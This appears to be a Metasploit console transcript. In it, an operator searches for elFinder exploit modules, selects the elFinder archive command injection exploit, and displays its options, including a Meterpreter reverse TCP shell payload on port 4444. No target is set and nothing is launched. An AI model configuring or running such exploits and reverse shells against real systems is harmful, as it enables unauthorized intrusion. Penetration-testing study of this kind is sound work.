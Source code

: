 ```bash
msf6 exploit(linux/http/apache_druid_js_rce) > search elFinder

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/multi/http/builderengine_upload_exec                       2016-09-18       excellent  Yes    BuilderEngine Arbitrary File Upload Vulnerability and execution
   1  exploit/unix/webapp/tikiwiki_upload_exec                           2016-07-11       excellent  Yes    Tiki Wiki Unauthenticated File Upload Vulnerability
   2  exploit/multi/http/wp_file_manager_rce                             2020-09-09       normal     Yes    WordPress File Manager Unauthenticated Remote Code Execution
   3  exploit/linux/http/elfinder_archive_cmd_injection                  2021-06-13       excellent  Yes    elFinder Archive Command Injection
   4  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection


Interact with a module by name or index. For example info 4, use 4 or use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection

msf6 exploit(linux/http/apache_druid_js_rce) > use 3
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > options

Module options (exploit/linux/http/elfinder_archive_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI of elFinder
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


```